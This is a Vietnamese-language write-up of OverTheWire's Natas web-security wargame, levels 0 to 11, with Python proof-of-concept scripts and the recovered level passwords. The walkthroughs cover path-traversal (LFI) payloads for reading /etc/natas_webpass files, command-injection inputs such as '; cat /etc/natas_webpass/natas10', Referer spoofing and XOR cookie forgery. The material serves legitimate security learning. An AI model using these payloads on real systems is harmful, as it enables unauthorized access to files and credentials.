

Wargame [Natas](https://overthewire.org/wargames/natas/) là hình thức chơi leo theo từng level được tạo nên bởi [OverTheWire](https://overthewire.org/wargames/) community. Wargame này dành cho những người muốn tìm hiểu những điều cơ bản nhất về web-security phía server. Chúng ta có thể thấy các lỗi phổ biến nhất trong wargame này.

Với mỗi cấp độ ta sẽ truy cập và lấy được pwd của level tiếp theo. Công việc của chúng ta somehow lấy được pwd đó và nhảy level. Tất cả pwd đều được lưu trữ ở **/etc/natas_webpass/** hãy để ý điều này. Ví dụ, pwd của **natas5** được lưu trữ trong **/etc/natas_webpass/natas5** và chỉ có **natas4** và **natas5** mới truy cập và đọc được.

Với mỗi level giải mình sẽ cung cấp thêm POC để solve vấn đề nhanh hơn.

> Let's focus on the quiz !


***
# Natas Level 0 Solution
***
**URL:** [http://natas0.natas.labs.overthewire.org](http://natas0.natas.labs.overthewire.org) <br/>
**Datum:** natas0-natas0

Này thì đơn giản sau khi nhập user, pwd thì chỉ cần kiểm tra view-source bằng cách nhấn chuột phải `View page source`, ta sẽ nhận được pwd:

```bash
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
 ```

hoặc có thể check bằng Python <br/>

**POC:**
```python
import requests
import re

user = 'natas0'
pwd = user

url = 'http://%s.natas.labs.overthewire.org/' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

#print(content)
print(re.findall('<!--The password for natas1 is (.*) -->', content))
```


***
# Natas Level 1 Solution
***
**URL:** [http://natas1.natas.labs.overthewire.org](http://natas1.natas.labs.overthewire.org) <br/>
**Datum:** natas1-gtVrDuiDfck831PqWsLEZy5gyDz1clto

Ở level này thì khi nhấp chuột phải đã blocked thì mình thử dùng phím tắt `Ctrl + U`, ta sẽ nhận được pwd:

```bash
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

**POC:**
```python
import requests
import re

user = 'natas1'
pwd = 'gtVrDuiDfck831PqWsLEZy5gyDz1clto'

url = 'http://%s.natas.labs.overthewire.org/' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

print(content)
#print(re.findall('<!--The password for natas2 is (.*) -->', content))
```


***
# Natas Level 2 Solution
***
**URL:** [http://natas2.natas.labs.overthewire.org](http://natas2.natas.labs.overthewire.org) <br/>
**Datum:** natas2-ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

Nếu bạn kiểm tra source, sẽ thấy đường link thẻ img:

```bash

```
Lúc này, chỉ cần xóa tên tệp và truy cập vào [http://natas2.natas.labs.overthewire.org/files/](http://natas2.natas.labs.overthewire.org/files/) để lấy nội dung thư mục. Ta sẽ tìm thấy pwd ở trong file `users.txt`:

```bash
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

**POC:**
```python
import requests
import re

user = 'natas2'
pwd = 'ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi'

url = 'http://%s.natas.labs.overthewire.org/files/users.txt' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

#print(content)
print(re.findall('natas3:(.*)', content))
```


***
# Natas Level 3 Solution
***
**URL:** [http://natas3.natas.labs.overthewire.org](http://natas3.natas.labs.overthewire.org) <br/>
**Datum:** natas3-sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

Về level này, ta nên biết 1 tí concept về [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro) đơn giản là một tệp ở gốc trang web của bạn cho biết những phần thuộc trang web bạn không muốn cấp quyền truy cập cho trình thu thập dữ liệu của công cụ tìm kiếm.

Vì thế ta thử check file *robots.txt* trên trang web ([http://natas3.natas.labs.overthewire.org/robots.txt](http://natas3.natas.labs.overthewire.org/robots.txt)), ta sẽ thấy được folder chứa pwd: 

```bash
User-agent: *
Disallow: /s3cr3t/
```

Duyệt folder trên url, và check file **users.txt**:

```bash
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

**POC:**
```python
import requests
import re

user = 'natas3'
pwd = 'sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14'

url = 'http://%s.natas.labs.overthewire.org/s3cr3t/users.txt' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

#print(content)
print(re.findall('natas4:(.*)', content))
```


***
# Natas Level 4 Solution
***
**URL:** [http://natas4.natas.labs.overthewire.org](http://natas4.natas.labs.overthewire.org) <br/>
**Datum:** natas4-Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

Khi ta cố gắng đăng nhập, thì chỉ nhận lại message không được cho phép:

```bash
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```

Về cách giải quyết, bạn có thể thay đổi *Referer* bằng đoạn Python đơn giản:

**POC:**

```python
import requests
import re

user = 'natas4'
pwd = 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ'

headers = {'Referer' : 'http://natas5.natas.labs.overthewire.org/'}

url = 'http://%s.natas.labs.overthewire.org/' % user
reponse = requests.get(url,auth = (user,pwd), headers = headers)
content = reponse.text

#print(content)
print(re.findall('The password for natas5 is (.*)', content))
```

*Or this way*

```python
import requests

url = 'http://natas4.natas.labs.overthewire.org/'
referer = 'http://natas5.natas.labs.overthewire.org/'

s = requests.Session()
s.auth = ('natas4','Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ')
s.headers.update({'Referer' : referer})
r = s.get(url)

print(r.text)
```

Lấy pwd và leo tiếp thôi:

```text
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```


***
# Natas Level 5 Solution
***
**URL:** [http://natas5.natas.labs.overthewire.org](http://natas5.natas.labs.overthewire.org) <br/>
**Datum:** natas5-iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Khi cố gắng đăng nhập, ta nhận được thông báo lỗi sau:

```text
Access disallowed. You are not logged in
```

Thử check headers của HTTP Response với Python:

**POC:**

```python
import requests

url = "http://natas5.natas.labs.overthewire.org/"
s = requests.Session()
s.auth = ('natas5', 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq')
r = s.get(url)

print(r.headers)
```

Ta nhận được response:

```text
{'Date': 'Fri, 16 Nov 2020 22:05:05 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
```

Ta nhận thấy cookie **'Set-Cookie': 'loggedin=0'**. Ta có thể modify nó thành giá trị **1** và fresh lại trang. Ta có thể thực hiện trên **Chrome** bằng cách dùng *JavaScript Console*.

{: .align-center}

Done !

```text
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

*Or this way*

```python
import requests
import re

user = 'natas5'
pwd = 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq'

cookies = { 'loggedin' : '1' }
url = 'http://%s.natas.labs.overthewire.org/' % user

session = requests.Session()
response = session.get(url, auth = (user, pwd), cookies = cookies)
content = response.text

print(content)
```


***
# Natas Level 6 Solution
***
**URL:** [http://natas6.natas.labs.overthewire.org](http://natas6.natas.labs.overthewire.org) <br/>
**Datum:** natas6-aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Ở level này, ta cần nhập vào *secret* để lấy được pwd. Ta thử *View sourcecode*, nhận thấy mã `PHP` sau:

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Đọc code ta nhận thấy included file (`include "includes/secret.inc";`), vì thế thử truy cập vào:

```php
// http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Giờ ta chỉ việc nhập key trên lấy được pwd để sang level tiếp theo:

```text
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

*Or this way*

**POC:**

```python
import requests
import re

user = 'natas6'
pwd = 'aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1'

url = 'http://%s.natas.labs.overthewire.org/' % user

session = requests.Session()
response = session.post(url, data= {'secret':'FOEIUWGHFEEUHOFUOIU', 'submit':'submit'}, auth = (user, pwd))
content = response.text
print(content)
```


***
# Natas Level 7 Solution
***
**URL:** [http://natas7.natas.labs.overthewire.org](http://natas7.natas.labs.overthewire.org) <br/>
**Datum:** natas7-7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

Ở level này, ta nhận được 2 links ngẫu nhiên ở trang. Nếu để ý ta sẽ thấy URL lấy tên của trang làm biến cho *index.php*

```text
http://natas7.natas.labs.overthewire.org/index.php?page=home
http://natas7.natas.labs.overthewire.org/index.php?page=about
```

Với *hint* đã cho ta biết pwd của **natas8** nằm ở **/etc/natas_webpass/natas8**, vì thế ta thử bypass path traversal bằng *LFI*:

```bash
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/passwd
```

And here we go!

```bash
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8
```

Ta nhận được pwd:

```text
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

*Or this way*

**POC:**

```python
import requests
import re

user = 'natas7'
pwd = '7z3hEENjQtflzgnT29q7wAvMNfZdh0i9'

url = 'http://%s.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8' % user

session = requests.Session()
response = session.get(url, auth = (user, pwd))
content = response.text

print(content)
```


***
# Natas Level 8 Solution
***
**URL:** [http://natas8.natas.labs.overthewire.org](http://natas8.natas.labs.overthewire.org) <br/>
**Datum:** natas8-DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Level này ta lại tiếp tục nhận source code là *PHP*, và đoạn code như sau:

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Ở đây sẽ kiểm tra đầu vào của biến *secret* sao cho bằng với `'3d3d516343746d4d6d6c315669563362'`, nhưng nó đã bị modify bởi hàm *encodeSecret()* phía trên, vì thế ta chỉ cần đảo ngược nó bằng PHP hoặc Python gì cũng bypass qua cả.

**PHP:**

```php
<?php
    echo(base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362"))));
```

**Python:**

```python
import base64

secret = "3d3d516343746d4d6d6c315669563362"
secret = bytes.fromhex(secret)
secret = secret[::-1]
secret = base64.decodebytes(secret)

print(secret)

# Result = oubWYf2kBq
```

Nhập key vào ta nhận được pwd lên level tiếp theo:

```text
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```


***
# Natas Level 9 Solution
***
**URL:** [http://natas9.natas.labs.overthewire.org](http://natas9.natas.labs.overthewire.org) <br/>
**Datum:** natas9-W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

Level này khi view sourcecode, ta nhận được mã PHP như sau:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Nhìn vào ta có thể mường tượng ra, đây là nơi thực thi *command injection*

Vì vậy ta thử fuzz input trên `; cat /etc/natas_webpass/natas10` hoặc `. /etc/natas_webpass/natas10`, ta nhận được pwd. Ở đây `;` sẽ ngắt dòng command trong shell và thực thi command khác.

```text
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

*Or the way*

**POC:**

```python
import requests
import re

user = 'natas9'
pwd = 'W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl'

url = 'http://%s.natas.labs.overthewire.org/' % user

session = requests.Session()

response = session.post(url, data={'needle':'. /etc/natas_webpass/natas10 #', 'submit' : 'submit'}, auth = (user, pwd))
content = response.text

print(content)
```


***
# Natas Level 10 Solution
***
**URL:** [http://natas10.natas.labs.overthewire.org](http://natas10.natas.labs.overthewire.org) <br/>
**Datum:** natas10-nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

Tương tự như level trước, nhưng giờ đã filter trường input, đây đoạn code **PHP** filter.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Ta thử 1 số command như là `.* /etc/natas_webpass/natas11` hoặc `. /etc/natas_webpass/natas11 #` sẽ nhận được pwd của level 12. Về **POC - Python** có thể lấy từ level trước thay bằng `natas11`.

```text
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```


***
# Natas Level 11 Solution
***
**URL:** [http://natas11.natas.labs.overthewire.org](http://natas11.natas.labs.overthewire.org) <br/>
**Datum:** natas11-U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Level này source code cũng là mã PHP:

```php
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);

?>


<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

?>
```

Oke, ta cần có **$data["showpassword"] == "yes"**.
Trước đó, **$data** được lấy giá trị thông qua hàm **loadData()**.

```php
function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-fd]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}
```

Hiểu tổng quát, *$data* được lấy từ biến **data** của cookie (không có, thì tự động get mặc định), với các thao tác xử lý lần lượt là:

```text
base64_decode → xor_encrypt → json_decode
```

Quá trình này dễ thấy là đối xứng với các thao tác trong hàm **saveData()**:

```text
json_encode → xor_encrypt → base64_encode
```

Do *json_encode*, *json_decode*, *base64_encode*, *base64_decode* là các hàm có sẵn của PHP. Lúc này ta cần là hiểu được hàm *xor_encrypt*.

Nhưng… khoan đã, nãy giờ chúng ta cứ lan man về vấn đề mã hóa cookie, vậy nó có ý nghĩa gì đối với task này?

Hãy nhớ lại rằng, chúng ta phải có **$data["showpassword"] == "yes"**, nhưng biến *showpassword* được mặc định là *"no"* (trong khai báo *$defaultdata*), còn cái mà chúng ta có thể thay đổi chỉ là mỗi *bgcolor*. Vậy thì chỉ còn cách đọc hiểu cơ chế xử lý cookie của task, và chỉnh sửa nó thủ công mà thôi.

Trở về với hàm *xor_encrypt()*:

```php
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
 
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
 
    return $outText;
}
```

Rất dễ hiểu, là phép **XOR** với một dãy byte. Và do biến *$key* đã bị ẩn, nên ta cần tìm nó.

Chúng ta có input, dựa trên *$data = $defaultdata*. Chúng ta cũng có output dựa trên giá trị cookie. Tóm tắt lại một chút:

```bash
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

cookie['data'] = ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D

saveData() = setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
```

Thực thi câu lệnh này để lấy input của hàm *xor_encrypt()*:

```php
echo json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
```

```text
{"showpassword":"no","bgcolor":"#ffffff"}
```

Tương tự như vậy, thực thi câu lệnh PHP sau để xác định output của hàm *xor_encrypt()*:

```php
echo base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
```

Như vậy, ta đã có input và ouput. Kết hợp với tính chất kinh điển của phép toán XOR ví dụ `plaintext ^ key = ciphertext` thì `plaintext ^ ciphertext = key`, như thế ta coi như có đủ dữ kiện cần thiết. Đoạn code dưới đây sẽ cho ta biết các byte lần lượt được dùng để **XOR** input thành output là gì:

```python
import base64
import json

ciphertext = b"ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="
ciphertext = base64.decodebytes(ciphertext)
plaintext = {"showpassword":"no", "bgcolor":"#ffffff"}

plaintext = json.dumps(plaintext).encode('utf-8').replace(b" ", b"")

def xor_decrypt(plaintext, ciphertext):
    secret = ""

    for x in range(len(plaintext)):
        secret += str(chr(ciphertext[x] ^ plaintext[x % len(plaintext)]))

    return secret

secret = xor_decrypt(ciphertext, plaintext)
print(secret)

# Result = qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```

Oke, vậy giờ ta cần encode lại cookie và set lại giá trị *showpassword = yes*:

```python
import base64
import json

key = b"qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw"
new_cookie = {"showpassword":"yes", "bgcolor":"#ffffff"}
new_cookie = json.dumps(new_cookie).encode('utf-8').replace(b" ", b"")

def xor_encrypt(key, cookie):
    data = ""
    for x in range(len(key)):
        data += str(chr(cookie[x] ^ key[x % len(key)]))

    data = base64.encodebytes(data.encode('utf-8'))
    return data

data = xor_encrypt(key, new_cookie)
print(data)

# Result = ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
```

Giờ ta chỉ cần chỉnh sửa cookie của mình trong trình duyệt bằng *Javascript console*:

```javascript
document.cookie="data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK"
```

Oke, good job!

```text
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

> Will try to complete the rest of the journey, please stay tuned ..

Cheering ...


